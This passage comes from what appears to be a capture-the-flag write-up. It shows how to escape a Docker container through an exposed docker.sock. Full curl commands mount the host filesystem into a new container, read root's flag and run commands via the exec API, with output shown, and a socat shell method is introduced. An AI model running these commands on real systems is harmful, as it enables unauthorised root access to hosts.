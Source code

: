 
From here I can grab `root.txt` by just changing the command:

    
    
    root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "cat /rootfs/root/root.txt"], "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/${id}/start; curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/${id}/logs?stderr=1&stdout=1"
    24d5f49db9f24f6e87b35ebe1c53e796
    

### Run Commands w/ Host FS [Method #2]

This box seems to be clearing out containers every few minutes. Because of
that, I preferred to use the above method to just create a new container each
command. That said, in an engagement where OPSEC mattered more, I’d create one
instance, and then run commands using the `exec`
[API](https://docs.docker.com/engine/api/v1.30/#tag/Exec).

The first two steps are the same - create and start an instance. This time,
I’ll create it without the `Cmd` parameter:

    
    
    root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/${id}/start
    

Now I’ll add a command, which will return an ID:

    
    
    curl -s -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Cmd": ["ls", "-l", "/rootfs/root/"], "AttachStdout": true, "AttachStderr": true, "Tty": true}' http://localhost/containers/${id}/exec
    {"Id":"f55b2c9d029f0588d615cbb3d4b04e2aaf1ae4438cabfa1122643ece406c4ecc"}
    

This ID is not the container ID, but the exec ID. I’ll use the `start` option
to run the command and print the results:

    
    
    root@2d24bf61767c:~# curl -s -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" http://localhost/exec/f55b2c9d029f0588d615cbb3d4b04e2aaf1ae4438cabfa1122643ece406c4ecc/start -d '{"Detach": false, "Tty": true}'
    total 8
    -rw-------    1 root     root            33 Sep  1 13:19 root.txt
    drwxr-xr-x    3 root     root          4096 May 18 08:44 snap
    

### Socat Shell in Container w/ Host FS [Method #3]

[This blog post](https://blog.secureideas.com/2018/05/escaping-the-whale-
things-you-probably-shouldnt-do-with-docker-part-1.html) shows how to hook
socat into the socket to get an ugly shell in the new container. Just like
before, I’ll create and start a container, this time with some extra
parameters. The blog recommends storing them in a `container.json` file, so
I’ll do that. Pretty printed it looks like (though the real file doesn’t have
the newlines or spacing):

